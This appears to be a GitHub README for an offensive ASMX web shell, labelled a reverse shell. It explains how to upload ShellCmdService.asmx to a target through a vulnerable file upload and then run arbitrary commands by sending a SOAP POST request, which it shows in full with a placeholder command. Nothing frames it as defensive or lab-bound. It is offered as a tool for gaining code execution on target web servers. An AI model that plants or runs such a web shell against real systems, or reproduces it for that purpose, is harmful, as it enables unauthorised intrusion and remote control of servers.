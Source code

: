 # asmx reverse shell

This repository contains an asmx reverse shell for achieving code execution using file upload functionality.

## Steps for Code Execution

1. **Upload the Reverse Shell File:**
   - Upload `ShellCmdService.asmx` to the target machine. This can be done through a vulnerable file upload functionality on a web application.

2. **Execute Commands:**
   - Send a POST request to target using Burp Suite.

   Example request:

   ```bash
   POST /ShellCmdService.asmx HTTP/1.1
   Host: 127.0.0.1
   Content-Type: text/xml
   Content-Length: 347

   <?xml version="1.0" encoding="utf-8"?>
   <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
     <soap:Body>
       <ExecCommand xmlns="http://tempuri.org/">
         <cmd>Command</cmd>
       </ExecCommand>
     </soap:Body>
   </soap:Envelope>

Replace `127.0.0.1` with the actual host and modify <cmd>`Command`</cmd> with the command you want to execute on the target system.

Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or create a pull request.
